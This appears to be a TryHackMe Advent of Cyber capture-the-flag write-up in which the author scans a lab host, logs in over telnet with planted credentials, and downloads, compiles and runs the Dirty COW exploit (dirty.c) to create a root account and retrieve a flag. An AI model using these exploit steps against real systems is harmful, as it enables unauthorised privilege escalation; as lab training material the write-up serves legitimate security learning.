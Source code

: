 # TRYHACKME: ADVENTOFCYBER2 [DAY 13] SPECIAL - Coal for Christmas

```
Prove these sysadmins deserve coal for Christmas!
```

TOPICS: dirty cow

### QUESTIONS

What old, deprecated protocol and service is running?

```
$ nmap 10.10.102.162                           
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-19 17:10 EST
Nmap scan report for 10.10.102.162
Host is up (0.11s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
23/tcp  open  telnet
111/tcp open  rpcbind

Nmap done: 1 IP address (1 host up) scanned in 13.35 seconds
```

Connect to this service to see if you can make use of it. You can connect to the service with the standard command-line client, named after the name of the service, or netcat. What credential was left for you?

```
$ telnet 10.10.102.162                                                                                     130 ⨯
Trying 10.10.102.162...
Connected to 10.10.102.162.
Escape character is '^]'.
HI SANTA!!! 

We knew you were coming and we wanted to make
it easy to drop off presents, so we created
an account for you to use.

Username: santa
Password: clauschristmas

We left you cookies and milk!

christmas login: santa
Password: 
Last login: Sat Nov 21 20:37:37 UTC 2020 from 10.0.2.2 on pts/2
                \ / 
              -->*<-- 
                /o\ 
               /_\_\ 
              /_/_0_\ 
             /_o_\_\_\ 
            /_/_/_/_/o\ 
           /@\_\_\@\_\_\ 
          /_/_/O/_/_/_/_\ 
         /_\_\_\_\_\o\_\_\ 
        /_/0/_/_/_0_/_/@/_\ 
       /_\_\_\_\_\_\_\_\_\_\ 
      /_/o/_/_/@/_/_/o/_/0/_\ 
               [___] 
```

What distribution of Linux and version number is this server running?

```
$ cat lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

Who got here first?

```
$ cat cookies_and_milk.txt
/*************************************************
// HAHA! Too bad Santa! I, the Grinch, got here 
// before you did! I helped myself to some of
// the goodies here, but you can still enjoy
// some half eaten cookies and this leftover
// milk! Why dont you try and refill it yourself!
//   - Yours Truly,
//         The Grinch
//*************************************************/

```

What is the verbatim syntax you can use to compile, taken from the real C source code comments?

```
$ wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
$ python3 -m http.server 8080
$ wget 10.6.44.43:8080/dirty.c

$ gcc -pthread dirty.c -o dirty -lcrypt
```

What "new" username was created, with the default operations of the real C source code?

```
$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fiIoY9ux7Hzpc:0:0:pwned:/root:/bin/bash

mmap: 7f844d312000
```

Uh oh, looks like that perpetrator left a message! Follow his instructions to prove you really did leave Coal for Christmas!  After you leave behind the coal, you can `run tree | md5sum`. What is the MD5 hash output?

```
 su firefart
Password: 
firefart@christmas:/home/santa# cd /root
firefart@christmas:~# ls
christmas.sh  message_from_the_grinch.txt
firefart@christmas:~# cat message_from_the_grinch.txt
Nice work, Santa!

Wow, this house sure was DIRTY!
I think they deserve coal for Christmas, don't you?
So let's leave some coal under the Christmas `tree`!

Let's work together on this. Leave this text file here,
and leave the christmas.sh script here too...
but, create a file named `coal` in this directory!
Then, inside this directory, pipe the output
of the `tree` command into the `md5sum` command.

The output of that command (the hash itself) is
the flag you can submit to complete this task
for the Advent of Cyber!

        - Yours,
                John Hammond
                er, sorry, I mean, the Grinch

          - THE GRINCH, SERIOUSLY

firefart@christmas:~# touch coal
firefart@christmas:~# tree
.
|-- christmas.sh
|-- coal
`-- message_from_the_grinch.txt

0 directories, 3 files
firefart@christmas:~# tree | md5sum
8b16f00dd3b51efadb02c1df7f8427cc  -
```
